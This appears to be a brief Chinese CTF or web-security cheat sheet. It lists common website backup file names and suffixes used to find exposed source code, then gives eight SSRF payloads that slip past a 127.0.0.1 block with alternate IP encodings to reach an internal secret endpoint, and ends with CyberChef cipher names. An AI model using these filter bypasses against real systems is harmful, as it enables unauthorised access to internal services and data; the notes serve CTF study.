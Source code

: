 常见的网站源码备份文件后缀:

tar.gz，zip，rar，tar

常见的网站源码备份文件名：

web，website，backup，back，www，wwwroot，temp

# SSRF

127.0.0.1被禁止访问，则可以尝试各种变形

```
?url=http://@127.0.0.1:8000@/api/internal/secret
?url=http://2130706433:8000/api/internal/secret
?url=http://0x7f.0x0.0x0.0x1:8000/api/internal/secret
?url=http://[::127.0.0.1]:8000/api/internal/secret
?url=http://127。0。0。1:8000/api/internal/secret
?url=http://127.1:8000/api/internal/secret
?url=http://0.0.0.0:8000/api/internal/secret
?url=http://127.127.127.127:8000/api/internal/secret
```

127.0.0.1=0.0.0.0=127.127.127.127



# 工具

## cyberchef:

affine:仿射密码

bacon：培根密码

